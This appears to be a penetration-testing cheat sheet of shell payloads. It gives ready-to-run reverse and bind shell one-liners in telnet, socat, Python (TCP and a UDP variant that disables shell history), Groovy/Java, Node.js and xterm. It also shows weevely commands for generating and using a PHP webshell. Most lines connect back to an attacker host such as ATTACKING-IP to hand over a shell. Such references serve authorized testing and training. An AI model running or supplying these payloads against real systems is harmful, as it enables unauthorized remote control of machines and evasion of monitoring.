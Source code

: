 # Shells

## Telnet

```text
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```text
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## socat

### bind

```bash
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
```

```bash
socat FILE:`tty`,raw,echo=0 TCP:localhost:1337
```

### reverse

```bash
socat TCP:10.0.3.4:1337 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
```

```bash
socat file:`tty`,raw,echo=0 TCP-LISTEN:1337
```

## PHP

These are the most common types of shells we'll be turning to, as like it or not, PHP is probably the most common type of web server application.

### weevely

Using [weevely](https://github.com/epinna/weevely3) we can create php webshells:

```bash
weevely generate password /root/webshell.php
```

Now we execute it, point it to the remote page and get a shell in return:

```bash
weevely "http://192.168.1.101/webshell.php" password
```

## Groovy

```java
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

This was sourced from a gist user [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

## Javascript

The following can be used as a general platform independent reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn((process.platform.contains('win')?'cmd.exe':'/bin/sh'),[]);
    var client = new net.Socket();
    client.connect(8080, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node.js application from crashing
})();
```

**Source**: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)  
**Source**: [https://github.com/evilpacket/node-shells/blob/master/node\_revshell.js](https://github.com/evilpacket/node-shells/blob/master/node_revshell.js)

We can also use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate encoded reverse shells.

## Python

There are a myriad of ways to spawn a shell in Python, and for the classic TCP reverse shell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Sometimes however, you may need to use an alternate protocol with python, and while the above is a good one-liner it's a bit difficult to work with. I'd recommend using pty, and an excellent source for pty-webshells is [https://github.com/infodox/python-pty-shells](https://github.com/infodox/python-pty-shells).  

An example alternative protocol is a UDP shell, which can be used to bypass firewall rules in some environments:

```python
import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.15.186\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
```

These shells can't be captured with netcat however, you'll have to use socat

```bash
socat file:`tty`,echo=0,raw udp-listen:1234
```

## Xterm

Xterm sessions can also be used to retrieve a shell on a remote device.  This can be useful in cases where you've exploited a VNC instance, or in some cases if a WAF is restricting the character inputs you can do.  One of the benefits of spawning an xterm shell is that it is installed by default and has a short declaration syntax to spawn a shell.

For this you'll need xnest installed and a remote xterm client available. You can set up the listener on your own listener server using one of the following two commands:

```text
Xnest :3 -ac -once -query localhost
Xnest :3 -listen tcp
```

This opens a listener on port 6003, but you can choose any alternative to `:3`

The access control list on your server also needs to be amended to allow access from your machine.

```text
xhost +<remote ip>
```

On the remote machine you can then run:

```text
xterm -display <server ip>:3
```

From this you'll receive a reverse shell.

